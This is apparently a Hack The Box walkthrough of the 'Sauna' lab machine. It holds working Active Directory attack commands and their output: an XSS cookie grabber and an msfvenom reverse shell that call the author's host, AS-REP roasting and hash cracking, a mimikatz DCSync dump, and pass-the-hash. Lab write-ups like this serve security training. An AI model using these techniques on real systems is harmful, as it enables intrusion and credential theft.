

**Summary**

HTB challenges don't always feel realistic, but this one did a good job of presenting challenges and vulnerabilities you see in the real world. It also reminded me of some important concepts, both in offense and defense. Thanks to [@WhortonMr](https://twitter.com/whortonmr) for the fun box.

**Enumeration**

I start with a full port nmap scan, but this estimates another 5 hours to complete. 

```bash
SYN Stealth Scan Timing: About 1.79% done; ETC: 04:34 (5:19:56 remaining)
```

So I cancel and run a top 1000 ports scan to reduce the time. This gives me a lot to work with.

```bash
root@kali:/home/kali/htb/sauna# nmap -sC -sV --top-ports 1000 -oN nmap_top_1000 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 23:16 EDT
Nmap scan report for 10.10.10.175
Host is up (0.057s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-09 10:21:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h04m48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-09T10:23:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.50 seconds
```

I re-run my full scan in the background, because you never know when a port might be hidden at the top end of the spectrum. Now that it's running, I start working through the ports.

**53 - DNS**

I try a quick nslookup to see if it gives up any nameservers.

```bash
root@kali:/home/kali# nslookup
> server 127.0.0.1
Default server: 127.0.0.1
Address: 127.0.0.1#53
> server 10.10.10.175
Default server: 10.10.10.175
Address: 10.10.10.175#53
> 10.10.10.175
** server can't find 175.10.10.10.in-addr.arpa: SERVFAIL
```

I add sauna.htb to my /etc/hosts.

```bash
10.10.10.175    sauna.htb
```

I try a quick zone transfer to see if it responds with any records.

```bash
root@kali:/home/kali# dig axfr sauna.htb @10.10.10.175

; <<>> DiG 9.16.4-Debian <<>> axfr sauna.htb @10.10.10.175
;; global options: +cmd
; Transfer failed.
```

I try a few other things, and no luck so I move on.

**80 - HTTP**

Whatweb identifies the HTTP server as IIS 10, the site was made with Bootstrap.

```bash
root@kali:/home/kali/htb/sauna# whatweb 10.10.10.175
http://10.10.10.175 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[example@email.com,info@example.com], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.175], Microsoft-IIS[10.0], Script, Title[Egotistical Bank :: Home]
```

The main page reveals it's a bank.



I turn on BurpSuite in the background as I click around the different pages. There's an about page with full names of the team members. This might come in handy later.


There's a contact page with a form.


I try a quick XSS on each field, with a script source requesting back to a netcat listener on my machine.

```bash
root@kali:/home/kali/htb/sauna/# nc -nvlp 80
```


The email field tries to validate and fails. I remove it and re-run, and get the following error message.


I remove all the XSS and try regular strings, and get the same response. I check Burp, and no request is shown. I open Firefox dev tools, and see a POST is being used.


I click 'edit and resend', modify the request method to be GET, and get a 200.


Burp captures this request now, so I send it to repeater, highlight the script tags and use Ctrl-U to encode the requests.


I wait a little while and don't receive a connection back. I try one more trick with a cookie grabber, and repeat the encoding process with Ctrl-U.

```bash
<script>new Image().src="http://10.10.14.8/fake.jpg?output="+document.cookie;</script>
```


Nothing that time either, so time to move on. I do a quick enumeration with [dirsearch.py](http://dirsearch.py) to look for any hidden folders. I don't get anything I didn't see with Burp.

**Port 88 - Kerberos**

I try an nmap script to enumerate some users.

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='sauna.htb',userdb=/usr/share/seclists/Usernames/Names/names.txt sauna.htb
```

No luck here either.

**Port 135 - RPC**

I try a null auth with rpcclient but access denied

```bash
root@kali:/home/kali# rpcclient 10.10.10.175
Enter WORKGROUP\root's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

**Port 445 - SMB**

I try smbclient with a null login. Login is successful but no shares available.

```bash
root@kali:/home/kali/htb/sauna# smbclient -L //10.10.10.175
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```

I try with crackmapexec and get some useful pieces of information. The name is sauna, the domain is EGOTISTICAL-BANK.local. 

```bash
root@kali:/home/kali# crackmapexec smb sauna.htb --shares
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

I update my /etc/hosts to reflect this new information.

```bash
10.10.10.175    sauna.EGOTISTICAL-BANK.local
10.10.10.175    EGOTISTICAL-BANK.LOCAL
```

Re-running some of the commands I ran before with the correct domain returns a little more info.

```bash
root@kali:/home/kali# nmap -p 389 --script ldap-search EGOTISTICAL-BANK.local
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-09 00:31 EDT
Nmap scan report for EGOTISTICAL-BANK.local (10.10.10.175)
Host is up (0.055s latency).
rDNS record for 10.10.10.175: sauna.EGOTISTICAL-BANK.local

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
|         instanceType: 5
|         whenCreated: 2020/01/23 05:44:25 UTC
|         whenChanged: 2020/07/09 10:14:31 UTC
|         subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         uSNCreated: 4099
|         dSASignature: \x01\x00\x00\x00(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC
|         uSNChanged: 57366
|         name: EGOTISTICAL-BANK
...
|     dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
|_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
```

Nothing super useful, but the minimum password length is 7, and there is an object called "Hugo Smith".

**Exploitation Part 1**

I'm coming up short on enumeration, so I have to stop and step back for a second and think about what the most interesting things I've found are.

1. Some forms that seem to filtered pretty heavily, with POST methods that fail.
2. A list of employees.

I put together a list of the users found on the 'About Us' page, and type some variations that are common, then save it to a text file.

```bash
fergus
fergus.smith
fergussmith
fsmith
hugo
hugo.bear
hugobear
hbear
steven
steven.kerb
stevenkerb
shaun
shaun.coins
shauncoins
scoins
bowie
bowie.taylor
bowietaylor
btaylor
sophie
sophie.driver
sophiedriver
sdriver
```

There are only a few things I can try without having to brute force each one. From a previous box on HTB I completed, Forest, I learned about [GetNPUsers.py](http://getnpusers.py) from the Impacket examples library.

```bash
root@kali:/home/kali/htb/sauna# GetNPUsers.py EGOTISTICALBANK/ -no-pass -usersfile users.txt -dc-ip 10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICALBANK:21309fe9bed91587b8c205465ded379f$0d75a1210adc57c73dafd140f6538d812461751e6264782909e7b4f096c82bb350e4113966a2aacf92a3ddbc1b2d268f38e5713843e17fb294e4642b04c02b0b8ca97696c4bb6e007c3328592f6402d1c9bdf597c07926b0f0a5dbfb09855b040f53c4a978ab2edd76e691fac3d172ef2375b9390030be934f1fa4472de36656a8ba75bde91a06d52117dc112a8dd9ce4ee957e1bd04410045e6b0adf8930bcf0d49c35527882c170410f7f64cb9c7f1c9205d386cd64deee4cc144c7c545ce9622b509a9969d3661ec79e48a7025cefbead42a6e10b7737b5d2df6872fb960dc8235ed966d5701a092c7aca24fda3a6c465060bcfc17c730b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

I've got a hash. What just happened?

[GetNPUsers.py](http://getnpusers.py) requests accounts from Kerberos that have Pre-Authentication disabled. A good explanation is here:

[https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

The TLDR version is, the first step in Kerberos authentication is Pre-Authentication. This is the point where the user enters their password, and it is sent to the Domain Controller for verification etc. 

Pre-authentication is enabled by default for all accounts, but you can turn it off if you want to. There are architectural reasons for doing this, but not a good idea. If you can grab one of those hashes, you can try to crack it with hashcat.

```bash
kali@wallaby:~/$ hashcat -m 18200 /home/kali/hashes/sauna.hash /usr/share/wordlists/rockyou.txt

$krb5asrep$23$fsmith@EGOTISTICALBANK:21309fe9bed91587b8c205465ded379f$0d75a1210adc57c73dafd140f6538d812461751e6264782909e7b4f096c82bb350e4113966a2aacf92a3ddbc1b2d268f38e5713843e17fb294e4642b04c02b0b8ca97696c4bb6e007c3328592f6402d1c9bdf597c07926b0f0a5dbfb09855b040f53c4a978ab2edd76e691fac3d172ef2375b9390030be934f1fa4472de36656a8ba75bde91a06d52117dc112a8dd9ce4ee957e1bd04410045e6b0adf8930bcf0d49c35527882c170410f7f64cb9c7f1c9205d386cd64deee4cc144c7c545ce9622b509a9969d3661ec79e48a7025cefbead42a6e10b7737b5d2df6872fb960dc8235ed966d5701a092c7aca24fda3a6c465060bcfc17c730b:Thestrokes23
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICALBANK:21309fe9bed915...7c730b
Time.Started.....: Wed Jul  8 23:12:04 2020 (1 sec)
Time.Estimated...: Wed Jul  8 23:12:05 2020 (0 secs)
Guess.Base.......: File (/home/brandon/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  9215.4 kH/s (7.20ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10616832/14344385 (74.01%)
Rejected.........: 0/10616832 (0.00%)
Restore.Point....: 10321920/14344385 (71.96%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ahki_22 -> Saboka54
Hardware.Mon.#1..: Temp: 60c Fan: 28% Util: 35% Core:1797MHz Mem:4006MHz Bus:8
```

user: fsmith

pass: Thestrokes23

Now to figure out what to do with these creds. I try two handy static binaries of the Impacket library [smbexec.py](http://smbexec.py) and [psexec.py](http://psexec.py) , but no luck.

[https://github.com/ropnop/impacket_static_binaries](https://github.com/ropnop/impacket_static_binaries)

```bash
root@kali:/home/kali/htb/sauna# psexec.py fsmith@EGOTISTICAL-BANK.local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on EGOTISTICAL-BANK.local.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
root@kali:/home/kali/htb/sauna# smbexec.py fsmith@EGOTISTICAL-BANK.local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

Luckily, as I'm scratching my head, my full port nmap scan comes back. There is an interesting port, but you wouldn't know because nmap misidentifies it half of the time.

```bash
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

This port is actually WinRM, a remote management service that can use Powershell. There is a great tool I haven't used in a while called evil-winrm. It's pretty simple to install on kali.

```bash
root@kali:/home/kali/htb/sauna# gem install evil-winrm
```

I launch evil-winrm and get a shell.

```bash
root@kali:/home/kali/htb/sauna# evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```

And I get the user flag.


```bash
user.txt
1b5520b98d97cf17f24122a55baf70cf
```

**Exploitation Part 2**

To speed up some of the enumeration phase as it's late, I use evil-winrm's built in upload function.

```bash
*Evil-WinRM* PS C:\Users\FSmith\1> upload /opt/win/winPEAS.exe
Info: Uploading /opt/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe to C:\Users\FSmith\1\winPEAS.exe

                                                             
Data: 322216 bytes of 322216 bytes copied

Info: Upload successful!
```

It makes short work of the machine and discovers AutoLogin credentials.

```bash
[+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

This is good, because based on the naming scheme, this is a service account. Trying a variety of protocols, it seems these credentials are not the current credentials. 

However, I list the accounts on the domain.

```jsx
C:\Users\FSmith\1>net users /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest                    
HSmith                   krbtgt                   svc_loanmgr
```

It looks like the user account has been renamed to svc_loanmgr. I retry with the new user name and it's successful.

```jsx
root@kali:/home/kali/htb/sauna# evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

It looks like we are in a similar boat with privileges to FSmith. I need to repeat my enumeration process with this account to look for anything different. WinPEAS returns nothing new, so now I need to enumerate what I can do with AD. 

I could spend hours enumerating by hand, or I can use SharpHound and dump the data to Bloodhound for analysis.

```bash
Evil-WinRM* PS C:\Users\svc_loanmgr\1> upload /opt/BloodHound/Ingestors/SharpHound.exe
Info: Uploading /opt/BloodHound/Ingestors/SharpHound.exe to C:\Users\svc_loanmgr\1\SharpHound.exe

                                                             
Data: 1110016 bytes of 1110016 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc_loanmgr\1> ./SharpHound.exe 
-----------------------------------------------
Initializing SharpHound at 4:21 AM on 7/10/2020
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain EGOTISTICAL-BANK.LOCAL using path CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
Status: 60 objects finished (+60 ì)/s -- Using 27 MB RAM
Enumeration finished in 00:00:00.4067424
Compressing data to .\20200710042133_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 4:21 AM on 7/10/2020! Happy Graphing!
```

Then I download the zip with evil-winrm, unpack the files and dump them to Bloodhound. For a good guide to installing and running Bloodhound, check out this guide.

[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)


Selecting the Query 'Find Prinicipals with DCSync Rights,' I find svc_loanmgr has the two privileges necessary to perform a DCSync attack.


Mimikatz is the perfect tool for this, but evil-winrm doesn't handle it too well, so I generate a reverse shell with msfvenom.

```bash
root@kali:/home/kali/htb/sauna# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

Then I upload it to Sauna and get a reverse shell. 

```bash
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> upload /home/kali/htb/sauna/shell.exe
Info: Uploading /home/kali/htb/sauna/shell.exe to C:\Users\svc_loanmgr\Documents\shell.exe
```

```bash
root@kali:/home/kali/htb/sauna# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.175] 57685
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\svc_loanmgr\1>
```

Then I run mimikatz.

```bash
C:\Users\svc_loanmgr\1>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x86) built on Mar 25 2018 21:00:57
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::dcsync /domain:EGOTISTICAL-BANK.local /user:Administrator
[DC] 'EGOTISTICAL-BANK.local' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 1/24/2020 10:14:15 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 0: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 1: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: ee8c50e6bc332970a8e8a632488f5211

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : caab2b641b39e342e0bdfcd150b1683e

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OldCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : 19d5f15d689b1ce5
    OldCredentials
      des_cbc_md5       : d9379d13f7c15d1c

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  3fbea1ff422da035f1dc9b0ce45e84ea
    02  708091daa9db25abbd1d94246e4257e2
    03  417f2e40d5be8d436af749ed9fddb0b0
    04  3fbea1ff422da035f1dc9b0ce45e84ea
    05  50cb7cfb64edf83218804d934e30d431
    06  781dbcf7b8f9079382a1948f26f561ee
    07  4052111530264023a7d445957f5146e6
    08  8f4bffc5d94cc294272cd0c836e15c47
    09  0c81bc892ea87f7dd0f4a3a05b51f158
    10  f8c10a5bd37ea2568976d47ef12e55b9
    11  8f4bffc5d94cc294272cd0c836e15c47
    12  023b04503e3eef421de2fcaf8ba1297d
    13  613839caf0cf709da25991e2e5cb63cf
    14  16974c015c9905fb27e55a52dc14dfb0
    15  3c8af7ccd5e9bd131849990d6f18954b
    16  2b26fb63dcbf03fe68b67cdd2c72b6e6
    17  6eeda5f64e4adef4c299717eafbd2850
    18  3b32ec94978feeac76ba92b312114e2c
    19  b25058bc1ebfcac10605d39f65bff67f
    20  89e75cc6957728117eb1192e739e5235
    21  7e6d891c956f186006f07f15719a8a4e
    22  a2cada693715ecc5725a235d3439e6a2
    23  79e1db34d98ccd050b493138a3591683
    24  1f29ace4f232ebce1a60a48a45593205
    25  9233c8df5a28ee96900cc8b59a731923
    26  08c02557056f293aab47eccf1186c100
    27  695caa49e68da1ae78c1523b3442e230
    28  57d7b68bd2f06eae3ba10ca342e62a78
    29  3f14bb208435674e6a1cb8a957478c18
```

Then we can use Impacket's [smbexec.py](http://smbexec.py) to get a shell.

```bash
root@kali:/home/kali/htb/sauna# smbexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff administrator@EGOTISTICAL-BANK.local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Smbexec is a little limiting as far as shell commands you can use, so I kill my reverse shell to port 443, and re-launch my reverse shell to get a proper shell.

```bash
C:\Windows\system32>C:\Users\svc_loanmgr\Documents\shell.exe
```


```bash
root.txt
f3ee04965c68257382e31502cc5e881f
```

**Lessons Learned**

**Defense**

- Disabling Pre-Authentication on AD accounts is dangerous. Find another way to design your architecture.
- Conventional naming schemes are common, so don't list your team member's full names on the website.
- Monitor accounts with DCSync privileges for unusual activity.

**Offense**

- Even if you run a limited port scan and find a lot of interesting ports, always go back and run the full port scan.
- Sometimes your first assumption is wrong (my assumption it was sauna.htb), so remember what that affected and go back and re-enumerate when that assumption was proven wrong.
- Don't spend too much time on rabbit holes, sometimes the answer really is brute-forcing. You might get lucky.
- Each time you get an account, re-enumerate.